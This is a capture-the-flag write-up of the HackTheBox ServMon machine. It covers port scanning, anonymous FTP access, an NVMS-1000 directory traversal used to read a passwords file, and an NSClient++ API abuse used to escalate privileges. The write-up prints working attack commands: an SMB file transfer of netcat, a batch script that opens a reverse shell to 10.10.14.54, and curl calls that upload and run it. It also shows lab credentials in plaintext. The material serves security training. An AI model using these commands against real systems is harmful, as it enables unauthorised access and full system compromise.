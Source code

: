 # ServMon [HTB](https://app.hackthebox.com/machines/240)
![servmon-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/servmon-01.png)

## Recon

After adding the target to my `/etc/hosts` file I start scaning for open ports:

```bash
nmap -p- --min-rate 10000 servmon.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ports-02.png)


There are quite a lot of open ports on this machine, though many of them seem to be RPC related. Let's leave these ports alone for now and run a version detection scan againts the more relevant ports:

```bash
nmap -p 21,22,80,135,139,445,5666,6063,6699,8443 -sCV servmon.htb -oN nmap.results
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/nmap-res-03.png)
![nmap-res-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/nmap-res-04.png)


We have the following:

+ An FTP server on port 21.
+ An SSH server on port 22.
+ An HTTP server on port 80.
+ RPC endpoint-mapper on port 135.
+ NetBIOS on port 139.
+ An SMB server on port 445.
+ Two "tcpwrapped" services on ports 5666 & 6063.
+ A "napster" service on port 6699.
+ A possible HTTPS server on port 8443.


Once again, we have quite a large attack surface here. Based on nmap's probing scripts, we can see that the FTP server allows for anonymous logins, so let's start with that. After which we an take a look at the HTTP/S servers. 


## FTP Port 21

Let's login to the FTP server using `anonymous: anonymous` as our credentials, and list the contents of the server:

![ftp-list-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ftp-list-05.png)


We see a `Users` folder. If we `cd` into it, and run `ls` again, we see two user folders:

![ftp-users-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ftp-users-06.png)


Let's see what's inside each of the folders:

+ Nadine

If we `cd` into the `Nadine` folder we will see a `Confidential.txt` file. Lets copy it over:

![ftp-nadine-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ftp-nadine-07.png)


The file reads as such:

![nadine-file-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/nadine-file-08.png)


`Nadine` talks about the existence of a `Password.txt` file in `Nathan`'s desktop. Not a lot we can do with this information right now, but it's worth keeping this in mind as we move forward. 


+ Nathan

If we `cd` into the `Nathan` folder we will see a `To do notes.txt` file. I copy this file over as well:

![ftp-nathan-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ftp-nathan-09.png)


This file reads as such:

![nathan-file-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/nathan-file-10.png)


`Nathan` is referencing some of the other services on this system. The main takeaways here in my opinion is the fact that the `NMVS` service is available publicly, and the mention of the `NSClient` tech. Let's start with the former one. 
 


+ What is NSClient?  

According to [this official NSClient++ page](https://nsclient.org), NSClient is a fully fledged monitoring agent which can be used with numerous monitoring tools. 


If we lookup known exploits for this tech, we can find the following [privesc action plan](https://www.exploit-db.com/exploits/46802). This looks solid, but we need to get access to the system first, so let's save this action plan for later. 


Let's check the NVMS tech. 


+ What is NVMS? 

I searched for this term online and the only thing I could find is that "NVMS" is an acronym for "National Vendor Management Service", which should be some form of a login system. Though, I wasn't able to find any wiki, or official vendor pages that describe the tech in more detail. 


If we browse towards `http://servmon.htb/` we will be see the NVMS login form:

![nvms-login-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/nvms-login-11.png)


I tried to use a couple of weak generic passwords but they all faild. 


Instead, I looked up exploits for `NVMS 1000` online and I found [this directory traversal](https://www.exploit-db.com/exploits/48311) vulnerability on ExploitDB.


According to the exploit notes, all we have to do is add the following syntax before any file we want to retrieve from the server: `../../../../../../../../../../../../../`. 


So for example, to retrive the `passwords.txt` file `Nadine` mentioned, I sent the following request:

![passwords-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/passwords-12.png)


I tried to use these passwords to login to the NVMS portal as both `Nathan` and `Nadine` but to no avail.


Then, I tried to use the passwords to login to the SSH. None of them worked to authenticate as `Nathan`, but upon testing the passwords for `Nadine`, I found that `L1k3B1gBut7s@W0rk` works to get access:

![ssh-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ssh-13.png)


## Privilege Escalation


Let's try the [privesc exploit](https://www.exploit-db.com/exploits/46802) for NSClient. 


According to the exploit notes, we need to get access to the GUI administration panel which is running on port 8443 on the target. But based on `Nathan`'s notes, this should be restricted from public access. 
 

If we browse towards `https://10.129.227.77:8443/` we see the following


![no-nsclinet-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/no-nsclinet-14.png)


The site does respond, but none of the links work, and we can't do anything. If we read the `NSClinet` configuration file at `C:\Program Files\NSClient++\nsclient.ini` we can see why:

![allowed-hosts-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/allowed-hosts-15.png)


The site is configured to only accept connections from the localhost interface. We need to tunnel this service over to our Kali machine, then we can access it through a localhost interface. To do this we can use a simple SSH tunnel with:

```bash
ssh -L 8443:127.0.0.1:8443 -N Nadine@servmon.htb 
```

If we list the open ports on our attack machine we will see port 8433 is open:

![port-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/port-16.png)


Now we need to transfer `nc64.exe` to the target. I grab a copy to my current working directory, and start an SMB server with:

```bash
impacket-smbserver -smb2support -username htb -password htb serv .
```

Then, I connect to the share from the target and download the file:

```cmd
net use \\10.10.14.54\serv /u:htb htb
copy \\10.10.14.54\serv\nc64.exe nc64.exe
```

Here it is on the target:

![file-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/file-17.png)


Now we can disconnect from the server using:

```cmd
net use /delete \\10.10.14.54\serv
```

Now we just need the password for the NSClient admin panel. We can follow along the exploit notes and find that it is stored at `c:\program files\nsclient++\nsclient.ini`. So we can extract it as such:

```cmd
type "c:\program files\nsclient++\nsclient.ini" | findstr pass
```

![pass-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/pass-18.png)


Now that we have the password, the tunnel is set, and we copied netcat to the target, we are ready to pull of the exploit. Though for some reason, when I opened `https://localhost:8433` on my attack machine I received the following error:

![no-gui-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/no-gui-18.png)


I wasn't sure why this was happening, it was getting pretty late and I wanted to finish the box. So instead of using the GUI, I found a way to pull the exploit off from the command line! 


First, let's create a `htb.bat` script that reads as such:

```bat
@echo off
C:\Users\Nadine\nc64.exe 10.10.14.54 443 -e cmd.exe
```

Now to upload this script to the target, we can run something like this:

```bash
curl -k -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/htb.bat -F 'data=@htb.bat' --user admin:ew2x6SsGTxjRwXOT
```

![added-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/added-19.png)


So far so good. 


Next, let's start a local listener with:

```bash
rlwrap nc -lnvp 443
```


Now we are ready to invoke the exploit. To do so, we can run something like this:

```bash
curl -k 'https://127.0.0.1:8443/api/v1/queries/htb/commands/execute?time=1m' --user admin:ew2x6SsGTxjRwXOT
```


After running this command my shell stalls, and on my netcat listener I receive a shell as `nt authority\system`:

![root-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/root-20.png)
